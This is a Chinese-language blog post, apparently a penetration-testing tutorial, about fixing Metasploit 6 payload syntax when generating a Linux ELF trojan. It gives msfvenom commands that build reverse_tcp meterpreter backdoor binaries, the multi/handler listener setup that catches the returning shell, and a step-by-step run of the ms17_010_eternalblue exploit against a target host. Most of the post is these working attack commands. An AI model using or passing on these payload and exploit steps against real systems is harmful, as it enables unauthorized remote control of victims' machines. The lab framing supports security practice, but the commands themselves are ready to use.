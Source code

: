 ```yaml
---
layout: post
title: msf 生成 linux elf 木马反弹不成功的解决方法
categories: [安全工具]
description: docker 版本安装 msf 
keywords: 安全工具,msf
---
```


# 0x01 前言

## 这几天我的msf 要生成linux 的木马 一直反弹不成功，用的是以下的paylaod

msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.233.131 LPORT=4444 -f elf > mshell.elf

我分析了一下报错，这个报错是没问题的，但生成的木马只有250b ，这明显是不成功的。

## 0x02 解决问题

我刚开始认为是我msf的问题 ，回来验证了一下，我的msf 是6的版本，而这个语句是5的写法，而我启动 msfconsole ，发现我的版本是6


**msf 6的生成语句为**

```
msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=192.168.3.16 LPORT=4444 -f elf > shell.elf
```
所以我改了payload ：linux/x64/meterpreter_reverse_tcp
这时候，就可以生成成功

```
msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=192.168.233.131 LPORT=4444 -f elf > mshell.elf
```

生成监听

```
msfconsole                                         # 在命令行里面输入命令，进入msf漏洞利用框架；
use exploit/multi/handler                          # 监听木马反弹过来的shell
set payload linux/x64/meterpreter/reverse_tcp  	   # 设置payload，不同的木马设置不同的payload，设置payload时，要根据目标系统的系统位数设置相应的payload;
set lhost 192.168.100.132                          # 我们的kali本机ip
set lport 6666                                     # 我们的kali本机端口
exploit           

```
反弹成功。


[图片地址](https://github.com/dzxindex/picture/blob/main/QQ%E6%88%AA%E5%9B%BE20220314191955.png))

![](https://img-blog.csdnimg.cn/20201014113809466.png)

![](http://static.runoob.com/images/runoob-logo.png)

## 利用ms17_010_eternalblue模块进行渗透：
打开msf框架：

msfconsole

使用ms17_010_eternalblue模块及各个配置：

use exploit/windows/smb/ms17_010_eternalblue

set payload windows/x64/meterpreter/reverse_tcp

show options

set rhost 目标主机IP

set lhost 监听的主机IP（在这里是docker主机的IP）

set lport 监听的端口（示例中为设置的映射的端口1234）

exploit
